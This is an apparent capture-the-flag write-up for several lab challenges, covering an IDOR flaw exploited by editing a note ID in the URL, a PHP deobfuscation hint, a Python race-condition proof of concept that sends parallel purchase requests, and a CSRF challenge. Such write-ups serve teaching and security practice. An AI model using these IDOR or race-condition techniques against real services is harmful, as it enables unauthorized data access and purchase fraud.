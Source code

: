 # Note App (IDOR)
Description: Write your diary on Shou's note app so he can eavesdrop every single byte of it!!!  
After login, and then Create Note, we will see Note ID. Click it and we will redirect to http://127.0.0.1:1005/note/5, modify Note ID from 5 to 1, visit http://127.0.0.1:1005/note/1, we will see the flag.

# RE
Description: Obviously, angr cannot solve this challenge. Note 1: wrap whatever you get with we{}  
The code is obfuscated with YAK Pro. You can use https://github.com/demonxian3/crack-yakpro-php to crack it.

# Faster Shop (Race Condition)
Description: Be as fast as possible to fast!  
No lock presents in db queries. PoC:

```
from requests import post
from multiprocessing import *
import time
def f():
    post("http://host/buy/1", headers={
        "cookie": "token=[YOUR TOKEN]"
    })
for i in range(20):
    p = Process(target=f)
    p.start()
time.sleep(2)
```

# Customer (CSRF)
Description: Shou just told admins in his company not to click any link sent by unknowns but they are just too ignorant and assume Chrome is so secure…  
You can simply generate payload with any existing tool for CSRF profiling. 